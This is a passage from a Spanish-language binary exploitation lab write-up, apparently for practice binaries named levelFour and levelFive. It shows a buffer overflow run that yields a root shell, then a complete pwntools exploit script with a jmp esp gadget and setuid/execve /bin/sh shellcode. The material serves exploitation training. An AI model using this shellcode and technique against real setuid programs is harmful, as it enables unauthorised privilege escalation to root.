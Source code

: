 
- Lo ejecutamos.

```bash
➜  levels ./levelFour $(python2 levelFour.py)
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAp�0���
# whoami
root
```

## Level 5

- Gracias a xchg2pwn por la aportación <https://xchg2pwn.github.io>.

```bash
#!/usr/bin/python2
from pwn import process, p32

shell = process("./levelFive")

offset = 16
junk = b"A" * offset

jmpesp = p32(0xf7dd4ff7)

setuid = b"1\xdbj\x17X\xcd\x80"

shellcode  = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x68\x2f"
shellcode += b"\x2f\x73\x68\x68\x2f\x62\x69"
shellcode += b"\x6e\x89\xe3\x31\xc9\xcd\x80"

shell.sendline(junk + jmpesp + setuid + shellcode)
shell.interactive()
```
